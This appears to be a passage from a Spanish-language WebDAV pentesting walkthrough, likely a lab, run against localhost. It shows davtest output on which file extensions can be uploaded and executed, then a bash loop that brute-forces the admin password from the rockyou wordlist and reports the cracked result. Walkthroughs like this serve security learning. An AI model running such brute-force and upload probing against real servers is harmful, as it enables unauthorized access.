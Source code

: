 ```bash
PUT	cgi	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cgi
PUT	jhtml	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jhtml
PUT	jsp	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jsp
PUT	php	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.php
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
EXEC	txt	FAIL
EXEC	cfm	FAIL
EXEC	aspx	FAIL
EXEC	html	SUCCEED:	http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
EXEC	html	FAIL
EXEC	shtml	FAIL
EXEC	pl	FAIL
EXEC	asp	FAIL
EXEC	cgi	FAIL
EXEC	jhtml	FAIL
EXEC	jsp	FAIL
EXEC	php	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cfm
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.aspx
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.shtml
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.pl
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.asp
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.cgi
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jhtml
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.jsp
PUT File: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.php
Executes: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.txt
Executes: http://127.0.0.1/DavTestDir_91iISb5pQ6yH0x/davtest_91iISb5pQ6yH0x.html
```

Explicación: en caso de conocer las credenciales, estas son las extensiones de archivos que permite el servidor WebDAV

Acción:

```bash
cat /usr/share/wordlists/rockyou.txt| while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es: $password"; break; fi; done
```

Resultado:

```bash
[+] La contraseña es: richard
```

